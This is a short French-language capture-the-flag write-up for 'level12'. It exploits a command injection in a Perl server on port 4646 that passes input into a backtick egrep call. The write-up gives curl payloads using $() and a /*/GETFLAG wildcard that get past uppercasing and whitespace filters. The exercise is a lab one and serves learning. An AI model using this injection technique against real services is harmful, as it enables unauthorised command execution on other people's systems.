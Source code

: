 Pour le level12, un serveur écoute sur le port 4646, on peut trouver son code dans le home de level12:

![image](./perl.png)

Dans le code, on peut voir un appel système:
```
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

Ce donc ça que l'on va exploiter, le seul problème étant que la variable `$xx` subit des traitements avant d'être utilisé.

Ces changement sont appliqués par 2 regex:
1. Remplace toutes les lettres minuscules par leur équivalents en majuscule
2. Garde uniquement le premier mot (tous le reste de la chaine est supprimé à partir du premier whitespace)

Il faut donc que la commande que l'on va envoyer puisse être comprise par le shell même en majuscule et qu'elle ne contienne pas de whitespace.

On va donc placer notre code dans un fichier et essayer d'executer ce fichier:

`echo 'getflag > /tmp/flag12' > /tmp/GETFLAG`

`curl 'localhost:4646?x=$(/tmp/GETFLAG)'`

Cet example ne fonctionne pas car le shell ne trouve pas le dossier `/TMP/GETFLAG`.

Pour contrer ce problème, on peut utiliser une wildcard ce qui donne: `/*/GETFLAG`:

`curl 'localhost:4646?x=$(/*/GETFLAG)'`

![image](./result.png)